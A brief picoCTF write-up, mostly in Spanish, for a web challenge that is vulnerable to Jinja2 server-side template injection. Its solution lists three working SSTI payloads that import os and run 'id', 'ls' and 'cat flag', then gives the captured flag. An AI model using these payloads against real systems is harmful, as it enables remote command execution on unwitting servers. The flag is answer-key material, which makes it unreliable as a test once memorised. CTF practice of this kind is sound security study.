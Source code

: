 
Descripcion:
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:56665/)!
Solucion(s):
http://rescued-float.picoctf.net:56665/
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}
Notas:
se utilizo un injeccion remota
Referencias:
se saco el codigo de inyeccion de qui:
https://onsecurity.io/article/server-side-template-injection-with-jinja2/